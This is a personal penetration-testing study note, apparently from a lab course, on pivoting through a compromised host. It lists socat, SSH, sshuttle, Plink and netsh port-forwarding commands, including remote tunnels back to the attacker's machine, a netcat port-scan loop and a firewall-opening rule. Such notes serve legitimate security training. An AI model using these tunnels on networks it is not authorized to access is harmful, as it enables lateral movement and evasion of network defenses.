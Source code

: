 Used to access machines that our host machine is unable to access in a topology but a machine that we managed to gain access to have access to
Example:
![[Pasted image 20240427112512.png]]
## Linux
1st Way: socat
```
socat -ddd TCP-LISTEN:[port],fork TCP:$ip:$port

$ip is the machine you are trying to access

from there, you can access the machine through the listening port of the machine you ran socat on
```
2nd Way: using ssh
```
Local Port Forwarding
first get the pty shell

then we need to find out the ip routing so we can create the port forward

for i in $(seq 1 254); do nc -zv -w 1 $ip $port; done (ONLY IF THERE ARE NO PORT SCANNER)

ssh -N -L 0.0.0.0:4455:$ip:$port [user]@$ip2

$ip is the machine you are trying to access (in below picture it is ????)
$ip2 is the machine you can access creds (in below picture it is PGDATABASE01)
```
![[Pasted image 20240427115034.png]]
```
Dynamic Port Forwarding
first get the pty shell

ssh -N -D 0.0.0.0:9999 [user]@$ip

$ip is the machine you can access with creds

setup proxychains next, vi /etc/proxychains4.conf
sock5 [your openvpn ip] 9999

from there you can access the machines behind the machine you can access with creds, just add proxychains to the command you want to run at the front
```
```
Remote Port Forwarding
first start ssh server on your own machine (systemctl start ssh)

get pty shell

ssh -N -R 127.0.0.1:2345:$ip:$port nic@$openvpnip

$ip is the machine you are trying to access

verify connection with ss -ntplu
```
```
Remote Dynamic Port Forwarding
first start ssh server on your own machine

get pty shell

ssh -N -R 9998 kali@$openvpnip

verify connection with ss -ntplu

setup proxychains but this time use sock5 127.0.0.1 9998
```
3rd way: using sshuttle (requires root privileges)
```
first set up socat
socat TCP-LISTEN:2222,fork TCP:$ip:22

$ip is the machine that the current one can access

on kali, run sshuttle -r [user]$ip1:2222 [whatever subnets you are trying to access]

$ip1 is the ip address of the machine you set up socat on

from there, just run your commands as if you are connected to all of the machines
```
## Windows
1st way: using ssh.exe
```
first determine if ssh is in the machine and also the version of it

in cmd: where ssh, ssh.exe -V

if version >7.6, we can do remote dynamic port forwarding

from there follow the steps above according to the method
```
2nd way: using Plink
```
plink.exe -ssh -l nic -pw nic -R 127.0.0.1:9833:127.0.0.1:3389 $openvpnip
```
3rd way: using Netsh
```
run cmd as admin

netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$ip connectport=22 connectaddress=$ip2

$ip is the address of the current machine, $ip2 is the address of the machine you are trying to access

if access is blocked to port 2222,
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=$ip localport=2222 action=allow

from there, connect into ssh of $ip2 normally through port 2222 in $ip

verify rule with netstat -anp TCP | find "2222"
```